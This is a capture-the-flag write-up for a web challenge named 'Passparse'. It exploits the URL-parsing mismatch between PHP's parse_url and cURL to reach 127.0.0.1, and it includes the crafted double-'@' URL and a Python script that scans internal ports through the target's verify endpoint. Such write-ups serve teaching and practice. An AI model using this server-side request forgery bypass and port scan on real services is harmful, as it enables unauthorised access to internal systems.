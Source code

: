 # Passparse (web 500)

### overview
We were given a web app that sends a request to the server using axios via a button :

[http://passparser.web.ctf.shellmates.club/verify.php?url=URL_HERE](http://passparser.web.ctf.shellmates.club/verify.php?url=URL_HERE)

We first had to bypass the hostname check using well known techniques but no one worked and we continuously had a message saying "You don't have permission".

Then we though it was an HTTP Splitting attack due to the response when sending a CRLF at the end of the URL.

But at the end we had to re-read the JS code with a comment 'update cURL !', so we started fetching for CURL PHP URL parsing conflicts and we end up in this article [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).

### the attack

So the vulnerability was that when sending this format of url :
```
http://random@rabbit.com:80@zion.com/
```
in PHP when using parse_url function to get the host it will get the last one **zion.com**, but in cURL it will take the first one **rabbit.com**
```
http:// random @ 127.0.0.1:80 @ passparser.web.ctf.shellmates.club/
                |____________|   |______________________________|
                     |                          |
                    cURL                    PHP parse_url
```
So we then just had to fetch for internal services by changing ports, here is the script:
```python
import requests

url = "http://passparser.web.ctf.shellmates.club/verify.php?url=http://a@127.0.0.1:{}@passparser.web.ctf.shellmates.club/"
headers = {
		"Accept": "application/json, text/plain, */*",
		"X-Auth-Token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c",
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36",
		"Referer": "http://passparser.web.ctf.shellmates.club/",
		"Accept-Encoding": "gzip, deflate",
		"Accept-Language": "en-US,en;q=0.9",
		"Connection": "close"}
for x in range(31):
    port = f"90{str(x).zfill(2)}"
    print(f'Trying port {port}')
    try:
        r = requests.get(url.format(port), headers=headers, timeout=2)
    except requests.exceptions.ReadTimeout:
        continue
    if len(r.text) != 13:
        print(r.text)
        break
    else:
        continue

```


~ **J4ck** alias **fncf0x**
